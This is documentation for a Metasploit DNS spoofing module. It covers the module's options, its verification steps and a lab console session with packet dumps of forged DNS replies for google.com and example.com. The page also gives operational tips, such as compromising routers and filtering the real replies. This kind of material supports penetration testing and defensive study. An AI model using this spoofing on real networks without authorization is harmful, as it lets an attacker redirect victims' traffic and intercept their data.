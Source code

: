 ## Vulnerable Application

This module provides a Rex based DNS service to resolve queries intercepted via the capture mixin. Configure
STATIC_ENTRIES to contain host-name mappings desired for spoofing using a hostsfile or space/semicolon separated
entries. In the default configuration, the service operates as a normal native DNS server with the exception of
consuming from and writing to the wire as opposed to a listening socket. Best when compromising routers or spoofing L2
in order to prevent return of the real reply which causes a race condition. The method by which replies are filtered is
up to the user (though iptables works fine).

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/spoof/dns/native_spoofer`
1. Do: `run`

## Options

### DISABLE_NS_CACHE

Disable DNS response caching.

### DISABLE_RESOLVER

Disable DNS request forwarding.

### FILTER

The filter string for capturing traffic. This allows the module to, for example, only process requests made from a
target host or subnet.

### INTERFACE

The name of the interface to listen on.

### NS

Specify the nameservers to use for queries, space separated.

### SEARCHLIST

DNS domain search list, comma separated.

### STATIC_ENTRIES

DNS domain search list (hosts file or space/semicolon separate entries). Example: `1.2.3.4 example.com`

## Scenarios

### DNS Spoofing

```
msf6 auxiliary(spoof/dns/native_spoofer) > show options 

Module options (auxiliary/spoof/dns/native_spoofer):

   Name              Current Setting                       Required  Description
   ----              ---------------                       --------  -----------
   DISABLE_NS_CACHE  false                                 no        Disable DNS response caching
   DISABLE_RESOLVER  false                                 no        Disable DNS request forwarding
   DOMAIN                                                  no        The target domain name
   FILTER            dst port 53 and host 192.168.250.134  no        The filter string for capturing traffic
   INTERFACE                                               no        The name of the interface
   NS                192.168.250.4                         no        Specify the nameservers to use for queries, space separated
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RPORT             53                                    yes       The target port (TCP)
   SEARCHLIST                                              no        DNS domain search list, comma separated
   SNAPLEN           65535                                 yes       The number of bytes to capture
   SRVHOST           192.168.250.160                       yes       The local host to listen on for DNS services.
   SRVPORT           53                                    yes       The local port to listen on.
   STATIC_ENTRIES    1.2.3.4 example.com                   no        DNS domain search list (hosts file or space/semicolon separate entries)
   THREADS           1                                     yes       Number of threads to use in threaded queries
   TIMEOUT           500                                   yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Serve DNS entries


msf6 auxiliary(spoof/dns/native_spoofer) > run
[*] Auxiliary module running as background job 2.
msf6 auxiliary(spoof/dns/native_spoofer) > SIOCSIFFLAGS: Operation not permitted
msf6 auxiliary(spoof/dns/native_spoofer) > 
[*] Caching response google.com:172.217.15.110 A
[+] Sent packet with header:
--EthHeader-----------------------------------
  eth_dst   50:eb:71:1a:59:8c PacketFu::EthMac
  eth_src   36:a6:88:92:60:5b PacketFu::EthMac
  eth_proto 0x0800            StructFu::Int16 
--IPHeader------------------------------------
  ip_v      4                 Integer         
  ip_hl     5                 Integer         
  ip_tos    0                 StructFu::Int8  
  ip_len    144               StructFu::Int16 
  ip_id     0x403c            StructFu::Int16 
  ip_frag   0                 StructFu::Int16 
  ip_ttl    64                StructFu::Int8  
  ip_proto  17                StructFu::Int8  
  ip_sum    0xc3a8            StructFu::Int16 
  ip_src    192.168.250.160   PacketFu::Octets
  ip_dst    192.168.250.134   PacketFu::Octets
--UDPHeader-----------------------------------
  udp_src   53                StructFu::Int16 
  udp_dst   39435             StructFu::Int16 
  udp_len   124               StructFu::Int16 
  udp_sum   0xeefc            StructFu::Int16 
------------------------------------------------------------------
00-01-02-03-04-05-06-07-08-09-0a-0b-0c-0d-0e-0f---0123456789abcdef
------------------------------------------------------------------
10 4a 81 80 00 01 00 01 00 04 00 00 06 67 6f 6f   .J...........goo
67 6c 65 03 63 6f 6d 00 00 01 00 01 c0 0c 00 01   gle.com.........
00 01 00 00 00 7a 00 04 ac d9 0f 6e c0 0c 00 02   .....z.....n....
00 01 00 00 40 b5 00 06 03 6e 73 32 c0 0c c0 0c   ....@....ns2....
00 02 00 01 00 00 40 b5 00 06 03 6e 73 31 c0 0c   ......@....ns1..
c0 0c 00 02 00 01 00 00 40 b5 00 06 03 6e 73 33   ........@....ns3
c0 0c c0 0c 00 02 00 01 00 00 40 b5 00 06 03 6e   ..........@....n
73 34 c0 0c                                       s4..
[+] Spoofed records for google.com to 192.168.250.134:39435
[+] Sent packet with header:
--EthHeader-----------------------------------
  eth_dst   50:eb:71:1a:59:8c PacketFu::EthMac
  eth_src   36:a6:88:92:60:5b PacketFu::EthMac
  eth_proto 0x0800            StructFu::Int16 
--IPHeader------------------------------------
  ip_v      4                 Integer         
  ip_hl     5                 Integer         
  ip_tos    0                 StructFu::Int8  
  ip_len    96                StructFu::Int16 
  ip_id     0x2ff2            StructFu::Int16 
  ip_frag   0                 StructFu::Int16 
  ip_ttl    64                StructFu::Int8  
  ip_proto  17                StructFu::Int8  
  ip_sum    0xd422            StructFu::Int16 
  ip_src    192.168.250.160   PacketFu::Octets
  ip_dst    192.168.250.134   PacketFu::Octets
--UDPHeader-----------------------------------
  udp_src   53                StructFu::Int16 
  udp_dst   38058             StructFu::Int16 
  udp_len   76                StructFu::Int16 
  udp_sum   0x00ab            StructFu::Int16 
------------------------------------------------------------------
00-01-02-03-04-05-06-07-08-09-0a-0b-0c-0d-0e-0f---0123456789abcdef
------------------------------------------------------------------
33 c8 81 20 00 01 00 01 00 00 00 01 07 65 78 61   3.. .........exa
6d 70 6c 65 03 63 6f 6d 00 00 01 00 01 c0 0c 00   mple.com........
01 00 01 00 00 00 00 00 04 01 02 03 04 00 00 29   ...............)
10 00 00 00 00 00 00 0c 00 0a 00 08 6f 59 ce 04   ............oY..
8e 13 7b 7d                                       ..{}
[+] Spoofed records for example.com to 192.168.250.134:38058
```
